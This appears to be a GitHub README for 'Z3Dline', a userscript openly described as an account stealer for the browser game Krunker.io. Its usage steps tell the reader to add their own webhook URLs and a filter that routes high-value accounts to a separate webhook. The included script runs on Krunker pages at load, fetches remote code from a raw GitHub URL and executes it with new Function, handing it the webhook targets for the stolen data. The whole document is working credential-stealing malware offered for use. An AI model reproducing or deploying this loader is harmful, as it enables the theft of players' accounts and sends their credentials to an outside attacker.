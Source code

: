 # Z3Dline

An improved version of PTWline stealer for Krunker.io.

# Usage

- Replace the `LO_WEBHOOK_URL` and `HI_WEBHOOK_URL` with your own webhook URLs.
- You can also change the `HI_FILTER` to set which accounts will go to the High-Tier Webhook. ONLY ACCOUNTS MATCHING ALL THE FILTERS WILL BE SENT TO THE HIGH-TIER WEBHOOK.

```js
// ==UserScript==
// @name         Z3DLine
// @description  Krunker Account Stealer
// @version      1.0.0
// @author       z3db0y
// @match        *://*.krunker.io/*
// @icon         https://www.google.com/s2/favicons?sz=64&domain=krunker.io
// @grant        none
// @run-at       document-start
// ==/UserScript==

const LO_WEBHOOK_URL = '';
const HI_WEBHOOK_URL = '';
const HI_FILTER = {
    lvl: 0,
    kr: 0,
    kdr: 0,
    nukes: 0,
    accuracy: 0
};

let xhr = new XMLHttpRequest();
xhr.open('GET', 'https://raw.githubusercontent.com/z3db0y/Z3Dline/main/dist.js', false);
xhr.send();

new Function('LO_WEBHOOK_URL', 'HI_WEBHOOK_URL', 'HI_FILTER', xhr.responseText)(LO_WEBHOOK_URL, HI_WEBHOOK_URL, HI_FILTER);
```